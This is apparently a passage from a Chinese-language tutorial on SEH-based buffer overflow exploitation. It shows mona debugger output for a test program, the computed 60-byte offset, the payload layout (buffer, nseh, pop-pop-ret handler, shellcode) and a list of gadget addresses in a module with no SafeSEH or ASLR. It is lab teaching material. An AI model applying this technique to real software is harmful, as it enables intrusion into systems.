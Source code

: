 ```
    Cyclic pattern (normal) found at 0x0012ff74 (length 140 bytes)
    -  Stack pivot between 1008 & 1148 bytes needed to land in this pattern
    EDX overwritten with normal pattern : 0x37654136 (offset 140)
    ECX (0x0012fc74) points at offset 144 in normal pattern (length 156)
[+] Examining SEH chain    SEH record (nseh field) at 0x0012ffb0 overwritten with normal pattern : 0x63413163 (offset 60), followed by 76 bytes of cyclic data
[+] Examining stack (entire stack) - looking for cyclic pattern
    Walking stack from 0x0012e000 to 0x0012fffc (0x00001ffc bytes)
    0x0012fbe4 : Contains normal cyclic pattern at ESP+0x60 (+96) : offset 0, length 300 (-> 0x0012fd0f : ESP+0x18c)
    0x0012fe44 : Contains normal cyclic pattern at ESP+0x2c0 (+704) : offset 0, length 300 (-> 0x0012ff6f : ESP+0x3ec)
    0x0012ff74 : Contains normal cyclic pattern at ESP+0x3f0 (+1008) : offset 0, length 140 (-> 0x0012ffff : ESP+0x47c)

```

计算出溢出长度为60字节,并列出所有加载的dll,并提示是否有safeSEH和aslr等.

根据前面的知识,构造的shellcode格式应为:buf +nseh +seh handle +shellcode

nseh 为90909090,seh handle为pop pop ret地址,buf为60长度的任意字节,ppt的地址也可以用mona来搜索,`!mona seh`

```
0x0040ba77 : pop esi # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040bb1b : pop esi # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x00401616 : pop ebx # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040176e : pop ebx # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040ec4f : pop ebx # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x004018ef : pop esi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cf67 : pop ebx # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cf6d : pop ebx # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cedb : pop edi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cee2 : pop edi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cee9 : pop edi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)

```
